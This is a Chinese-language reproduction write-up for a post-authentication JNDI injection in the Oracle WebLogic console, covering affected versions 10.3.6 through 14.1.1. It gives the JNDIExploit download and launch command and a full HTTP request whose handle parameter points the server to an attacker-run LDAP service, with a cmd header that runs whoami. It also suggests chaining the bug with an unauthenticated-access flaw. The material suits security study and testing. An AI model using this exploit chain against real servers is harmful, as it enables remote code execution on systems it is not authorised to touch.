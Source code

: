 # 0x00 软件介绍
Oracle WebLogic：一款流行的JAVA应用服务器

# 0x01 复现环境
复现环境：本地搭建的环境（win10 1909）  
复现版本：WebLogic v12.2.1.4.0  
环境搭建：  
参考[https://mp.weixin.qq.com/s/NL9o7MVG8j8zikeGUfTsVA](https://mp.weixin.qq.com/s/NL9o7MVG8j8zikeGUfTsVA)中的环境搭建部分

# 0x02 利用条件
需要登陆WebLogic控制台

# 0x03 影响版本
10.3.6.0.0, 12.1.3.0.0, 12.2.1.3.0, 12.2.1.4.0 and 14.1.1.0.0

# 0x04 漏洞复现
攻击环境：kali x64  
下载JNDIExploit：https://github.com/feihong-cs/JNDIExploit/releases/download/v.1.11/JNDIExploit.v1.11.zip  
启动JNDIExploit：  
```
java -jar ./JNDIExploit-v1.11.jar -i 192.168.1.5#其中192.168.1.5为本机IP
```
登录WebLogic控制台  
再次访问WebLogic控制台，burp抓包，替换为如下payload
```
POST /console/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://192.168.1;5:1389/Basic/WeblogicEcho;AdminServer%22) HTTP/1.1
Host: 192.168.1.7:7001
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
cmd:whoami
Referer: http://192.168.1.7:7001/console/login/LoginForm.jsp
Connection: close
Cookie: ADMINCONSOLESESSION=-XjUGJChfEBvqXqZBo748vnBGr895IIDGF5cmnoR9HkR_uY8Hrfd!-1181708775
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
```
如下图，可以看到成功执行命令whoami  
![image](./0.png)

此漏洞可配合Weblogic未授权访问漏洞（CVE-2020-14882）使用

# 0x05 批量脚本
无

# 0x06 参考链接
https://www.o2oxy.cn/3019.html
